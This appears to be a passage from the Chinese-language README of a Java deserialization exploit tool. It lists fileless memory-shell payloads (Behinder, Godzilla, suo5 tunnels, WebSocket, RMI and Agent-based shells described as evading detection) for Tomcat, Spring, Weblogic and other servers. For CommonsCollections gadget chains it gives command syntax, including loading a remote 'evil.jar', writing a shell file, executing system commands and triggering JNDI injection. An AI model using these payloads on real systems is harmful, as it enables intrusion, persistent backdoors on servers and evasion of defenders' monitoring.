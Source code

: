 - `EX-MS-TSMSFromThread-bx`：`冰蝎` 逻辑内存马
- `EX-MS-TSMSFromThread-gz`：`哥斯拉` Base64 逻辑内存马
- `EX-MS-TSMSFromThread-gzraw`：`哥斯拉` RAW 逻辑内存马
- `EX-MS-TSMSFromThread-cmd`：`CMD` 命令回显内存马
- `EX-MS-TSMSFromThread-suo5`：`suo5` suo5 隧道马

另外还本项目目前支持了 Tocmat WebSocket、Upgrade 以及 Executor 命令执行内存马，暂未扩展成多种类型（因为相关工具不支持，需魔改），使用方法例子如下：

- `EX-MS-TWSMSFromThread` : `CMD` 命令回显 WebSocket 内存马
- `EX-MS-TEXMSFromThread` : `CMD` 命令回显 Executor 内存马
- `EX-MS-TUGMSFromJMXuP` : `CMD` 命令回显 Upgrade 内存马
- `EX-cmsMSBYNC`: 绕过Nginx、CDN代理限制的 WebSocket 马，路径`/x`
- `EX-proxyMSBYNC`: 绕过Nginx、CDN代理限制的 WebSocket 马，路径`/x`
- `EX-WsResin`: 适配 Resin 的 WebSocket 马，请求头中`Upgrade: websocket`
- `EX-MsTSJser`: 适配Tomcat、Spring、Jetty的 WebSocket 马，路径`/cmd`
- `EX-MsTSJproxy`: 适配Tomcat、Spring、Jetty的 WebSocket 马，路径`/proxy`
- `EX-WsWeblogic`: 适配 Weblogic 的 WebSocket 马，路径`/path`
- `EX-WSWebsphereProxy`: 适配 Websphere 的 WebSocket 马，路径`/path`

对于一些非常规的环境，本项目还提供了基于 Java 原生的 RMI 内存马及命令回显方式，通过向 RMI 注册中心绑定一个恶意类，可以随时调用执行命令并回显，使用方法例子如下：

- `EX-MS-RMIBindTemplate-1100-qi4l`: `CMD` 命令回显 RMI 内存马

无文件落地的 Agent 型内存马，通过修改系统关键类字节码，植入内存马，无任何文件落地，全程在内存操作，能绕过多种防护和检测，使用方式 `EX-Agent-Lin/Win-Filter/Servlet-bx/gzraw/gz/cmd`，目前区分 Win/Lin 操作系统，并支持了 Servlet、Tomcat Filter 型内存马，将会持续更新一些 Hook 点，使用方式例如：

- `EX-Agent-Lin-Filter-bx`：在 Linux 系统上对 Tomcat Filter 修改类字节码的冰蝎 Agent 型内存马

本工具支持的全部内存马经过测试可用，但实际受到中间件版本的限制，对于内存马的相关测试，可以参考项目 [https://github.com/su18/MemoryShell](https://github.com/su18/MemoryShell)

## 2.4 针对 ChainedTransformer

- CommonsCollections1
- CommonsCollections5
- CommonsCollections6
- CommonsCollections7
- CommonsCollections9
- CommonsCollectionsK3
- CommonsCollectionsK4
- commonscollectionsK5

本项目为其拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()` 来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#d2hvYW1p`
- PB ：ProcessBuilder 通过 `ProcessBuilder.start()` 来执行系统命令，使用命令 `PB-lin-d2hvYW1p` / `PB-win-d2hvYW1p`分别在不同操作系统执行命令
- SE ：ScriptEngine - 通过 `ScriptEngineManager.getEngineByName('js').eval()` 来解析 JS 代码调用 Runtime 执行命令，使用命令 `SE-d2hvYW1`
- DL ：DNS LOG - 通过 `InetAddress.getAllByName()` 来触发 DNS 解析，使用命令 `DL-xxxdnslog.cn`
- HL ：HTTP LOG - 通过 `URL.getContent()` 来触发 HTTP LOG，使用命令 `HL-http://xxx.com`
- BC ：BCEL Classloader - 通过 `..bcel...ClassLoader.loadClass().newInstance()` 来加载 BCEL 类字节码，使用命令 `BC-$BCEL$xxx`，也可以使用 `BC-EX-TomcatEcho` 或 `BC-LF-/tmp/aaa.class` 来执行高级功能
- JD ：JNDI Lookup - 通过 `InitialContext.lookup()` 来触发 JNDI 注入，使用命令 `JD-ldap://xxx/xx`
- 其他：普通命令执行 - 通过 `Runtime.getRuntime().exec()` 执行系统命令，使用命令 `whoami`
